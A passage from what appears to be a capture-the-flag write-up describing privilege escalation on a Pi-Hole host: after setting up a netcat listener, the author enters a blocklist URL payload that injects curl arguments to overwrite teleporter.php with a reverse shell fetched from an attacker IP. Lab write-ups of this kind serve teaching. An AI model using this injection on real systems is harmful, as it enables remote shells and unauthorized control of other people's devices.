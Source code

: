 Since this is an IoT device, they are generally insecure and you would have been able to skip the next part and read the relevant files within the root directory in order to complete this machine. However, I wanted to complete the exploit and gain a privileged shell on the Pi-Hole itself. 

## Privilege Escalation using Pi-Hole

Now that I had access to the `www-data` user on the host, I was able to being the second portion of the exploit. The second portion was nearly identical to the previous one, the main difference being that I was simply overwriting the `teleporter.php` file on the server with an additional reverse shell.

As with the initial foothold and using the information described in the blog post, I attempted to exploit the administrative interface to gain a privileged shell on the host. The second phase of the exploitation began with:

* Creating a netcat listener locally.
* Navigating to Settings &rarr; Blocklists.
* Enter the following payload as a new URL.

```bat
http://10.10.14.21#" -o teleporter.php -d "
```

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Unbalanced/img10.png"  style="width: 50%" />
</p>
